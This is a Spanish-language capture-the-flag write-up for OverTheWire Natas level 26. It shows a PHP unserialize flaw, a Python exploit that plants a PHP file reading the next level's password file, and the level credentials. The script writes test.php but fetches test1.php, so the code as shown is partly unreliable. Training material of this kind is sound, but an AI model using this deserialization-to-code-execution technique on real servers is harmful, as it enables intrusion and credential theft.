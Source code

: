 # Natas 26

#### URL: natas26.natas.labs.overthewire.org
#### Credenciales: natas26:cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE

Las coordenadas que escribimos en la imagen se guardan como un objeto serializado de PHP en la cookie "drawing" y es deserializado para su analisis en el servidor:
``` php
if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
```

Existe una clase Logger con un destructor que escribe en el archivo especificado en "logFile" el string almacenado en "exitMsg":
``` php
class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";

            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }

        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }

        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }
```

Los destructores son clases que se llaman al final del ciclo de vida de un objeto, la idea para resolver este nivel es la siguiente:
+ Crear un objeto Logger con la propiedad logFile conteniendo un string a una ruta de archivo valido y la propiedad exitMsg conteniendo un script en php malicioso
+ Serializar el objeto y establecerlo como el valor de la cookie "drawing"
+ Hacer la peticion a la ruta de nuestro archivo para ejecutar el codigo PHP

Asumimos que la ruta /img es valida para escribir un archivo porque muestra el resultado de los dibujos como una imagen almacenada en dicha ruta.

``` python
import subprocess
import requests
from base64 import b64encode

# Codigo de php para serializar
phpCode='''class Logger {public $logFile; public $initMsg; public $exitMsg; } $logger = new Logger(); $logger->initMsg="STARTING ATTACK\n"; $logger->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n"; $logger->logFile = "/var/www/natas/natas26/img/test.php"; print base64_encode(serialize($logger))."\n";'''
# Ejecutar el codigo con el interprete de php
php = subprocess.run(["php","-r",phpCode],text=True,capture_output=True,check=True)
# Hacer la peticion
URL='http://natas26.natas.labs.overthewire.org'
headers = {'Authorization': f'Basic {b64encode(b"natas26:cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE").decode()}',
           'Cookie': f'drawing={php.stdout.strip()}'
          }
requests.get(URL,headers=headers)
r = requests.get(URL+'/img/test1.php',headers=headers)
print(r.text)
```

Cuando el servidor recibe la peticion con la cookie, la deserializa, y aunque produzca un error porque no es el tipo de objeto esperado igualmente el destructor se va a ejecutar al final del ciclo de vida del objeto.

``` bash 
python3 natas26_sploit.py
u3RRffXjysjgwFU6b9xa23i6prmUsYne
u3RRffXjysjgwFU6b9xa23i6prmUsYne
```

`natas27:u3RRffXjysjgwFU6b9xa23i6prmUsYne`
